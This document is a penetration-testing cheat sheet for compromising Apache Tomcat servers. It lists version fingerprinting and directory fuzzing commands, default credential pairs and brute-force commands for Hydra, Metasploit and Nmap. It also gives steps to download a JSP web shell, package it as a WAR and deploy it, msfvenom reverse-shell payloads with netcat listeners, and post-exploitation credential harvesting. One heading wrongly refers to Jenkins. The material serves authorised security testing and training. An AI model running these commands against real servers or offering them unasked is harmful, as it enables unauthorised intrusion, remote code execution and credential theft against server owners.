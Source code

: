 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Apache Tomcat is an open-source Java servlet container and web server, it's a key target due to its role in hosting Java-based web applications, often presenting opportunities to exploit configuration flaws and known vulnerabilities.

### **Identifying Jenkins Version**

1.  Check version in documentation page:  
    `curl -s http://[TOMCAT-DOMAIN]:8080/docs/ | grep Tomcat`
2.  Obtain version from default error page:  
    `curl -s http://[TOMCAT-DOMAIN]:8080/nonexistentpage | grep -i tomcat`
3.  Obtain version using Nmap:  
    `nmap -p 8080 --script http-server-header [TOMCAT-DOMAIN]`
    

### **Directory Discovery**

1.  Directory Fuzzing with FFUF:  
    `ffuf -u https://[TOMCAT-DOMAIN]/FUZZ -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt`
2.  Directory Fuzzing with Gobuster:  
    `gobuster dir -u https://[TOMCAT-DOMAIN] -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt`
3.  Directory Fuzzing with Wfuzz:  
    `wfuzz -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt https://[TOMCAT-DOMAIN]/FUZZ`
    

### **Default Credentials**

1.  `admin`:`admin`
2.  `tomcat`:`tomcat`
3.  `admin`:
4.  `admin`:`s3cr3t`
5.  `tomcat`:`s3cr3t`
6.  `admin`:`tomcat`

### **Brute-Force Apache Tomcat Credentials**

1.  Credential Brute-Forcing with Metasploit:  
    `use auxiliary/scanner/http/tomcat_mgr_login`
2.  Credential Brute-Forcing with Hydra:  
    `hydra -L userlist.txt -P passlist.txt [TOMCAT-URL] http-post-form "/manager/html:username=^[USER]^&password=^[PASS]^&Login=Login:Invalid credentials" -t 10`
3.  Credential Brute-Forcing with Nmap:  
    `nmap -p 8080 --script http-brute --script-args http-brute.path=/manager/html,userdb=userlist.txt,passdb=passlist.txt [TOMCAT-URL]`

### **Remote Code Execution (RCE)**

1.  Download JSP shell using wget:  
    `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
2.  Package shell into WAR file  
    `jar -cvf MyShell.war *`
3.  Upload the MyShell.war to Tomcat using either the manager GUI or a tool like curl:  
    `curl -u admin:password -T MyShell.war http://[TOMCAT-DOMAIN]:8080/manager/text/deploy?path=/myshell`
4.  Access the Shell  
    `http://[TOMCAT-DOMAIN]:8080/myshell/cmd.jsp`
    

### **Reverse Shell Using Metasploit**

1.  Create war File  
    `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=9002 -f war > MyShell.war`
2.  List WAR contents.  
    `jar -ft MyShell.war`
3.  Upload the MyShell.war to Tomcat using either the manager GUI or a tool like curl:  
    `curl -u admin:password -T MyShell.war http://[TOMCAT-DOMAIN]:8080/manager/text/deploy?path=/myshell`
4.  Start Netcat to receive reverse shell  
    `nc -lnvp 9002`
5.  trigger reverse shell using curl  
    `curl http://[TOMCAT-DOMAIN]:8080/myshell/orkmagcvdm.jsp`

### **Using Metasploit**

1.  Start Metasploit Framework:  
    `msfconsole`
2.  Select the Tomcat RCE exploit module:  
    `msf> use exploit/multi/http/tomcat_mgr_upload`
3.  Create the WAR file:  
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=80 -f war -o shell.war`
4.  Upload the WAR file to the Tomcat server:  
    `curl --upload-file shell.war -u 'tomcat:password' "https://[TOMCAT-DOMAIN]/manager/text/deploy?path=/shell"`
5.  Starting a Listener on the Local Machine:  
    `sudo nc -lvnp 80`
6.  Accessing the Shell:  
    `https://[TOMCAT-DOMAIN]/shell`

### **Post Exploit**

1.  Find Tomcat credentials in tomcat-users.xml:  
    `find / -name tomcat-users.xml 2>/dev/null`
2.  Gather Tomcat credentials with Metasploit:  
    `msf> use post/multi/gather/tomcat_gather`  
    `msf> use post/windows/gather/enum_tomcat`